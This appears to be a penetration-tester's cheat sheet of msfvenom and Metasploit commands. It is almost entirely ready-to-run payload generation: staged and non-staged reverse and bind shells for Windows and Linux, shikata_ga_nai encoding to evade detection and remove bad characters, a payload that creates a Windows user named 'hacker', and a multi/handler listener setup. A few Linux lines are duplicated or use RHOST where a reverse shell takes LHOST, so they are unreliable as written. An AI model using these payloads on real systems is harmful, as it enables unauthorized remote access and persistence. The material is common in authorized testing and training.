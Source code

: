 # MSFVenom

## List Payloads

```bash
#Linux
msfvenom --list payloads --platform linux --arch x86
#Windows
msfvenom --list payloads --platform windows --arch x64
```

## Windows Payloads

### Metasploit Meterpreter Listener

```bash
msf> use exploit/multi/handler  
msf> set payload windows/meterpreter/reverse_tcp  
msf> set lhost <IP>  
msf> set lport <PORT>  
msf> set ExitOnSession false  
msf> run
```

### x86

```bash
## Non Staged
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

## Staged
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

## Meterpreter encoded
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

### x64

```bash
## Non Staged
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.X.X LPORT=8082 -f exe -o shell.exe

## Staged Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	

## Add a user in windows with msfvenom: 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

### Encode and remove bad chars

```bash
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

## Linux Payloads

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

[Web Payloads](MSFVenom%20ff30b/Web%20Payloa%20c6851.md)